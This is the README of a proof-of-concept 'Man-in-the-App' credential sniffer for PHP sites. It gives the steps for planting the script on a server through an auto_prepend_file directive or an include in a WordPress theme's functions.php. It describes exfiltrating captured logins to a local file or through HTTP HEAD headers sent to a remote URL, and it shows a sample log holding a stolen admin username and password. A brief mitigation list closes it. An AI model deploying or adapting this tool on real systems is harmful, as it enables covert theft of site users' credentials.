# Man-in-the-App Proof-of-Concept Credential Sniffer (for now, PHP Applications only)

This is a simple script that will detect and log any credential communication over cookies and get/post requests and exfiltrate to somewhere. This method monitors data into application context/environment so cannot be defeated by the use of SSL.

## Installation / Deploy

Use the auto_prepend_file trick
```
php_value auto_prepend_file /var/www/path/to/mita.php
```

Include into an important bootstrap file (like Wordpress' Themes function.php)
```php
include_once "mita.php"
```

## Exfiltration Modes
* MITA_EXF_FILE -> Saves on a text file defined on 'MITA_EXF_FILE_FILENAME' constant (be sure to check file permissions!)
* MITA_EXF_HTTP_HEAD -> Issues an HTTP HEAD request via curl (requires php_curl) with X-MITA-Payload header containing the data (base64-encoded for compatibility, not evasion)

### Exfiltrating to a file
Sample output
```
#### MITA LOG START ## 01/03/2014 23:54:10 ####
Array
(
    [POST] => Array
        (
            [log] => admin
            [pwd] => notmypassword!
            [wp-submit] => Log In
            [redirect_to] => http://testwp/wordpress/wp-admin/
            [testcookie] => 1
        )

    [SERVER] => Array
        (
            [HTTP_HOST] => testwp
            [HTTP_USER_AGENT] => Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:27.0) Gecko/20100101 Firefox/27.0
            [HTTP_ACCEPT] => text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
            [HTTP_ACCEPT_LANGUAGE] => en-US,en;q=0.5
            [HTTP_ACCEPT_ENCODING] => gzip, deflate
            ...
            [REQUEST_URI] => /wordpress/wp-login.php
            [SCRIPT_NAME] => /wordpress/wp-login.php
            [PHP_SELF] => /wordpress/wp-login.php
            [REQUEST_TIME] => 1393728850
        )

)
### MITA LOG END ###

```

### HTTP Head

MitA will issue an HTTP HEAD request to the url supplied in 'MITA_EXF_HTTP_HEAD_URL' constant.
The header name is configured under the 'MITA_EXF_HTTP_HEAD_HEADER' constant.
You'll need to code your own data receiver or use the sample header_dumper.php.

## Mitigation
* Use [OTP](http://en.wikipedia.org/wiki/One-time_password)
* Use Hash-based challenge-response authentication with [Nonces](http://en.wikipedia.org/wiki/Cryptographic_nonce) (dangerous if incorrectly implemented)

## To-do
* Add HTTP Auth support
